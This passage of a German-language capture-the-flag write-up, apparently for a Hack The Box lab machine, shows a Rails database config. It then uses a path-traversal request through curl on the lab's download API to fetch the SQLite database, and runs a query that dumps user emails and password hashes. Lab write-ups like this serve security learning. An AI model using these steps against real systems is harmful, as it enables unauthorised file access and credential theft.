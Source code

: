 ```yaml
# SQLite. Versions 3.8.0 and up are supported.
#   gem install sqlite3
#
#   Ensure the SQLite 3 gem is defined in your Gemfile
#   gem "sqlite3"
#
default: &default
  adapter: sqlite3
  pool: <%= ENV.fetch("RAILS_MAX_THREADS") { 5 } %>
  timeout: 5000

development:
  <<: *default
  database: storage/development.sqlite3

# Warning: The database defined as "test" will be erased and
# re-generated from your development database when you run "rake".
# Do not set this db to the same as development or production.
test:
  <<: *default
  database: storage/test.sqlite3

production:
  <<: *default
  database: storage/development.sqlite3
```

#### 4. SQLite‑DB herunterladen

Wie man oben sehen kann ist die production datenbank unter `storage/development.sqlite3`, also haben wir sie heruntergeladen.

```bash
curl -s -H "Authorization: Bearer $TOKEN" \
     "http://api.heal.htb/download?filename=../../storage/development.sqlite3" \
     -o dev.sqlite3
file dev.sqlite3          # SQLite 3.x database
```

output:

```
dev.sqlite3: SQLite 3.x database, last written using SQLite version 3045002, writer version 2, read version 2, file counter 2, database pages 8, cookie 0x4, schema 4, UTF-8, version-valid-for 2

```

#### 5. Hashes dumpen

```bash
sqlite3 dev.sqlite3 \
  "SELECT email, password_digest FROM users;" > hashes.txt
```
